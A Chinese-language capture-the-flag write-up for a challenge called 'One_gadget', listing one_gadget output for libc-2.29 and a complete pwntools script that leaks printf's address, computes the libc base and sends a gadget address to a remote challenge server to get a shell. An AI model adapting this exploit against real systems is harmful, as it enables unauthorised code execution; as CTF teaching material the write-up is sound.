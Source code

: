

# One_gadget

**环境**

这个网站提供了各种版本的[so文件](https://buuoj.cn/resources)

```c
$ one_gadget libc-2.29.so 
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

**思路**

题目提供了printf的地址，通过偏移算出libc地址。然后用one_gadget覆盖EIP就能GETSHELL了。注意需要加载题目对应的libc地址。

![LQibhM](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/LQibhM.png)

![awPOkl](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/awPOkl.png)

解题脚本

```python
#!/usr/bin/python
from pwn import *


#p=process("one_gadget.dms",env={"LD_PRELOAD":"libc-2.29.so"})
p=remote("111.73.46.229",25662)
#gdb.attach(p,"b *0x7ffff7b44b86")
libc=ELF('libc-2.29.so')

p.recvuntil("here is the gift for u:")
s=p.recv(14)
offset=libc.symbols['printf']
print "printf:"+hex(offset)
libc_addr=int(s,16)-offset
print "leak:"+s
print "libc_addr:"+hex(libc_addr)

one_gadget=0x106ef8+libc_addr
print "one_gadget:"+hex(one_gadget)
p.recvuntil("Give me your one gadget:")
p.sendline(str(one_gadget))
p.interactive()

'''

$ one_gadget libc-2.29.so 
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
```

![LLJzEZ](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/LLJzEZ.png)